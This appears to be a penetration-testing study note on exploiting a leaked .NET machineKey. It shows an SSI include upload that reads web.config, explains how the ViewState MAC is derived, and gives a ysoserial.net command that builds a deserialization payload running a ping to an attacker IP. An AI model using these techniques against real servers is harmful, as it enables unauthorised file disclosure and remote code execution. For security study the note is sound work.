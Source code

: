 ![Alt text](/assets/images/posts/ewptx/69.png){: .align-center}

### Leveraging a leaked machineKey for RCE
Scenario, we are pentesting a .NET application

1. The application offers file uploading functionality (the 'aspx', '.config','.ashx', '.asmx', 'aspq', '.axd','.cshtml','.cshtml','.rem','.soap','.vbhtm', '.vbhtml','.asa','.asp', and '.cer' extensions are blacklisted.
2. Validation of viewstate MAC is performed (this prevents deserialization exploitation without knowing the cryptographic key - machineKey)

> Our only change is to find the **machine Key**

We can try uploading the following, in attempt to leak the machine key:
```js
<!--#include file="..\..\web.config" -->
// test.shtml
```

Attempt successfull, we can open view source code to retrieve its contents

Now we need to figure out how the MAC generated and verified:
```
- https://referencesource.microsoft.com/#system.web/UI/ObjectStateFormatter.cs
- https://referencesource.microsoft.com/#System.Web/Configuration/MachineKeySection.cs
```

If u read the above, u will conclude to the below logic:
```
- MAC_HASH = MD5(serialized_data_binary + validation_key + 0x00000000)
- VIEWSTATE = Base64_Encode(serialized_data_binary + MAC_HASH)
```

### Exploitation
We need the **YsoSerial.net** and to implement the MAC-related logic of the previous information
```bash
ysoserial.exe -o base64 -g TypeConfuDelegate -f ObjectStateformatter -c "cmd /c ping <attacker ip>"
```
